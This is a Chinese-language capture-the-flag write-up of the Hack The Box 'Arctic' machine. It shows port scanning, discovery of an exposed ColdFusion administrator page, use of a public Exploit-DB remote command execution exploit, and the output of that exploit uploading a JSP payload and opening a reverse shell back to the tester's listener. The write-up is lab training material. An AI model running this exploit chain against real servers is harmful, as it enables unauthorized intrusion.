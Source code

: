 # 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责。

# 服务发现
```
┌──(root💀kali)-[~/htb/Arctic]
└─# nmap -Pn -sV 10.10.10.11 -p-
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-14 10:26 EST
Nmap scan report for 10.10.10.11
Host is up (0.26s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

震惊，连个web服务都没有，一下子有点懵。。
8500端口不太常见，尝试在浏览器上打开，非常慢，但是存在一个文件遍历漏洞

```
Index of /

CFIDE/               dir   03/22/17 08:52 μμ
cfdocs/              dir   03/22/17 08:55 μμ

```

下面路径是一个cms的登录页面
```
http://10.10.10.11:8500/CFIDE/administrator/
```

看title上的cms名字：```ColdFusion```

在谷歌找了几个这个cms的exp，找到了这个[Remote Command Execution](https://www.exploit-db.com/exploits/50057)

下载到本地，修改本地ip和端口

执行攻击：
```
rinting some information for debugging...
lhost: 10.10.14.6
lport: 4444
rhost: 10.10.10.11
rport: 8500
payload: 7ed641ce03ea4eaa92aca6d9ef4c60ab.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.11] 49510

Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>

```

拿到了初始shell。。

